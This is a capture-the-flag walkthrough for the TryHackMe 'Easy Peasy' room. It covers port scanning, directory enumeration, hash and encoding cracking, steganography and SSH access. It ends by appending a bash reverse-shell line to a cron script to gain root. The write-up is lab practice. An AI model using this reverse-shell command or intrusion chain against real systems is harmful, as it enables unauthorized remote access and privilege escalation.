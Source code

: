 # Easy-Peasy-CTF-

https://tryhackme.com/room/easypeasyctf

**Use nmap to scan for open ports: sudo nmap -sS -A -T4 -p- 10.10.76.122**  

	PORT      STATE SERVICE VERSION

	80/tcp    open  http    nginx 1.16.1

	6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

	65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))

**Use gobuster tool to find for hidden directories:**

**gobuster -t 100 dir -u http://10.10.76.122 -e -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt**

	http://10.10.76.122/hidden/

**Use gobuster again to enumerate the hidden directory:**

	http://10.10.76.122/hidden/whatever/

Inspect the page and there will be a encrypted code

**Use cyberchef base64 to gain the first flag**

Head to **http://10.10.76.122:65524/** scroll down and the 3rd flag will be shown

**Use dirb on http://10.10.76.122:65524/:**
	http://10.10.76.122:65524/robots.txt

Head to the site and there will be an encrypted code , use md5 hash to find the 2nd flag

Inspect http://10.10.76.122:65524/ and there will be another encrypted code leading to the directory

**Use cyberchef again with base 62 to find the hidden directory** 

**Inspect the hidden directory to find another hash , unhash it to find the code *https://md5hashing.net/hash*** 

Head to the hidden folder with the binary number and download the image

**Use steghide extract -sf binarycodepixabay.jpg**  

Open the file and the username with a binary password will be inside

**Use cyberchef to uncover the binary code to the SSH password**

ssh -p 6498 boring@10.10.76.122  

cat the user.txt file , the flag will be in reverse order

**Head to https://www.dcode.fr/rot-cipher and uncover the real flag**

explore the crontab folder and there will be a secret .mysecretcronjob.sh file

**Head to https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet and copy the bash script** 

**echo "bash -i >& /dev/tcp/10.4.55.237/9876 0>&1" >> .mysecretcronjob.sh** 

Start netcat - nc -lvnp 9876

Excute the file - ./.mysecretcronjob.sh

Root is gained

cd /root/ and cat .root.txt file to get the final flag 

